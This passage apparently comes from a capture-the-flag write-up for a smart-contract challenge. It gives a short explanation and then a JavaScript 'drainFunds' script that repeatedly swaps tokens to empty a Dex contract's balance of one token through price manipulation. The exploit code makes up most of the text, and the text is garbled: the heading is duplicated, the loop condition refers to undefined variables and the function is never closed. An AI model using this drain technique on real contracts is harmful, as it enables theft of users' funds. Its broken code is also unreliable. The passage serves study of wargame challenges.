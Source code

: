 So actually by balancing our token balance from one token to another we will manage at last to drain the contract's balance of one token's type.

-----
**-----
**Exploitation**ation**

```js
const contractABI = artifacts.require("Dex");

// if token1.balance > token2.balance ==> token2 is more expensive because it has less tokens
// we want to trade the most expensive tokens
// knowTokenValues() ==> Distiniguishing the most expensive and cheapest token
// getSwapValues() // Basically our balance in the most expensive token
// ==============================

let contract ;
const TOKEN1_ADDRESS = "0x954aB18d300D8FFE76a2eFE7B36fcD6EF36825c7";
const TOKEN2_ADDRESS = "0xE651aD37ac31B03F7B49036248A29DC75D0093E6";
let PLAYER='PLAYER_ADDRESS'

async function getBalances(){
    const token1Balance = (await contract.balanceOf(TOKEN1_ADDRESS,contract.address)).toNumber();
    const token2Balance = (await contract.balanceOf(TOKEN2_ADDRESS,contract.address)).toNumber();
    console.log(`Current Balances for contract : A : ${token1Balance} \t B : ${token2Balance}`);
    return {token1Balance,token2Balance}
}

 function knowTokenValues({token1Balance,token2Balance}){
    return {mostExpensiveToken: token1Balance >= token2Balance ? TOKEN2_ADDRESS : TOKEN1_ADDRESS,cheapestToken:token1Balance < token2Balance ? TOKEN2_ADDRESS : TOKEN1_ADDRESS };
}

async function getSwapValues(tokensWithValues){
    let toSwap  = (await contract.balanceOf(tokensWithValues.mostExpensiveToken,PLAYER)).toNumber();
    let available = (await contract.balanceOf(tokensWithValues.mostExpensiveToken,contract.address)).toNumber();

    // to be able to drain the funds and not stop when we got too much tokens.
    if(toSwap>available)toSwap=available;

    return toSwap;
}


async function drainFunds(){
    
    let flag=true; // check condition

    // approving otherwise you will get an error due to how ERC20 works.
    await contract.approve(contract.address,10000,{from:PLAYER});

    while(flag){
        const balances = await getBalances();
        const tokenValues =  knowTokenValues(balances);
        const toSwap = await getSwapValues(tokenValues);
        await contract.swap(tokenValues.mostExpensiveToken,tokenValues.cheapestToken,toSwap,{from:PLAYER});
        console.log(`swapped ${toSwap} ${tokenValues.mostExpensiveToken} for  ${tokenValues.cheapestToken}`);

        flag = token1Balance*token2Balance>0;
    }
```